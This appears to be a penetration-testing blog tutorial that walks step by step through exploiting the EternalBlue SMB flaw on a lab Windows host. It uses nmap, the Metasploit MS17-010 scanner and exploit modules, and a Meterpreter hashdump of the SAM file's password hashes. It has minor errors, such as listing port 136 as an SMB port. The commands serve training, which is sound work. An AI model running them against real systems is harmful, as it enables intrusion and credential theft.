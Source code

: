 :orphan:
(exploiting-eternalblue-with-metasploit)=

# Exploiting EternalBlue With Metasploit

In this blog article, we will exploit and utilize a vulnerable Windows machine and perform some actions such as identifying a vulnerable SMB service port and dumping SAM file credentials using Metasploit. Before beginning our Nmap scan let's define what is a SAM file on Windows OS.

## What is the Windows SAM file?

The credentials of users are not stored in plain text files by the Microsoft Windows operating system. Rather, it parses the passwords using the NTLM hashing technique, which turns the passwords into cryptographic hash digests. For each local user account, this NTLM hash of the credential is kept in the SAM file.

The SAM file within the Windows operating systems can be found in the `C:\ WINDOWS\system32\config` directory.

## Enumerating default SMB ports

To begin, let’s start by determining whether a target machine is using SMB.

Launch your Kali and run the following command to see if service ports 136, 137, 138, 139, and 445 are up.

`nmap -p 136-139,445 10.10.204.25`

You can see the open service ports on our victim machine in the following image.

![alt img](images/eternalblue-9.png)

## Identifying EternalBlue vulnerability

Next we will see if the victim is susceptible to EternalBlue.

Let’s start Metasploit by typing the following command:

`msfconsole`

![alt img](images/eternalblue-11.png)

Run the following command to display the related Metasploit modules on the console.

`search eternal`

![alt img](images/eternalblue-12.png)

Now let us utilize the auxiliary scanner module to see if the victim machine is susceptible to EternalBlue vulnerability.

`use auxiliary/scanner/smb/smb_ms17_010`

`set RHOSTS 10.10.204.25`

![alt img](images/eternalblue-13.png)

`run`

![alt img](images/eternalblue-14.png)

As you can see in the image, Metasploit has responded positively. This output notes that the target machine would be most likely susceptible to the MS17-010 vulnerability.

## Exploiting EternalBlue vulnerability

Now we can run the command to select the related exploit module:

`use exploit/windows/smb/ms17_010_eternalblue`

![alt img](images/eternalblue-15.png)

Next, run these commands respectively and start the attack:

`set RHOSTS 10.10.204.25`

`set LHOST <your attack machine IP>`

`exploit`

![alt img](images/eternalblue-16.png)

![alt img](images/eternalblue-17.png)

To extract the details of the Security Account Manager (SAM) file, run the `hashdump` command in your Meterpreter session.

`hashdump`

![alt img](images/eternalblue-18.png)

The above screenshot shows the output after executing the `hashdump` command on Meterpreter.

## Conclusion

While Eternalblue vulnerability may appear obsolete in the modern world, there are numerous unpatched and insecure Windows operating systems in various endpoints or companies throughout the world. Upon completion of this blog post, you have now learned how to exploit a specific Windows OS that is susceptible to the ExternalBlue vulnerability and how to access the details of SAM files.

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::
